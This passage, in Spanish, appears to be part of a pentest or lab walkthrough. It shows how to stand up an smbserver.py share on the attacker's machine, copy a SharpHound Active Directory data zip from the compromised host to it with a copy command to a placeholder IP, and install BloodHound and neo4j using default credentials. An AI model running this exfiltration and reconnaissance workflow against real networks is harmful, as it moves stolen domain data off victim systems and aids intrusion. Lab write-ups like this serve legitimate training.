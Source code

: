 Nos compartimos por medio de samba (smbserver.py) nuestra carpeta con el siguiente comando: 

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![images/Untitled%2017.png](images/Untitled%2017.png)

![images/Untitled%2018.png](images/Untitled%2018.png)

Nos hemos conectado y estamos compartiendo esa carpeta para ahora pasarnos el .zip creado con SharpHound:

`copy <NOMBREDELZIP> \\<IP>\<DIRNAME>`

![images/Untitled%2019.png](images/Untitled%2019.png)

Ahora tendremos que tener instalado el BloodHound en nuestra maquina, para ello hacemos:

`apt-get install neo4j`

Una vez se descargue:

`neo4j console`

Cuando se inicie  abrimos el navegador y vamos a :

http://localhost:7474

Ponemos el usuario por defecto: u:neo4j p:neo4j

Instalamos el BloodHound:

`apt-get install BloodHound`

Y lo iniciamos : `bloodhound`
